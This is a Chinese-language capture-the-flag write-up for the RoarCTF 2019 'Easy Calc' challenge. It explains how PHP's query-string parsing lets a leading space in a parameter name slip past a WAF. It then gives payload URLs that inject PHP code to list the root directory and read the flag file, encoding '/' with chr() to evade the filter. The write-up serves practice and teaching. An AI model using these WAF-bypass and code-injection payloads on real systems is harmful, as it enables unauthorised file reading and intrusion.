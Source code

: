 # [RoarCTF 2019]Easy Calc

## 知识点

- ### PHP的字符串解析特性

  **我们知道PHP将查询字符串（在URL或正文中）转换为内部$_GET或的关联数组$_POST。例如：/?foo=bar变成Array([foo] =>  "bar")。值得注意的是，查询字符串在解析的过程中会将某些字符删除或用下划线代替。例如，/?%20news[id%00=42会转换为Array([news_id] => 42)。如果一个IDS/IPS或WAF中有一条规则是当news_id参数的值是一个非数字的值则拦截，那么我们就可以用以下语句绕过：**

  `/news.php?%20news[id%00=42"+AND+1=0--`

  ​    上述PHP语句的参数%20news[id%00的值将存储到$_GET["news_id"]中。

  ​    HP需要将所有参数转换为有效的变量名，因此在解析查询字符串时，它会做两件事：

  > ​    1.删除空白符
  >
  > ​    2.将某些字符转换为下划线（包括空格）

  ​    例如：

  | User input    | Decoded PHP | variable name |
  | ------------- | ----------- | ------------- |
  | %20foo_bar%00 | foo_bar     | foo_bar       |
  | foo%20bar%00  | foo bar     | foo_bar       |
  | foo%5bbar     | foo[bar     | foo_bar       |

  假如waf不允许num变量传递字母：

  ```html
  http://www.xxx.com/index.php?num = aaaa   //显示非法输入的话
  ```

  那么我们可以在num前加个空格：

  ```html
  http://www.xxx.com/index.php? num = aaaa
  ```

  ## 解题

  payload:

  禁用了`/`，使用`chr(47)`代替

  ```
  http://node3.buuoj.cn:26129/calc.php?%20num=2;var_dump(scandir(chr(47)))
  ```

  ![image-20210527191941394]([RoarCTF 2019]Easy Calc/image-20210527191941394.png)

payload:

```html
http://node3.buuoj.cn:26129/calc.php?%20num=1;var_dump(file_get_contents('/f1agg')
```



```
http://node3.buuoj.cn:26129/calc.php?%20num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

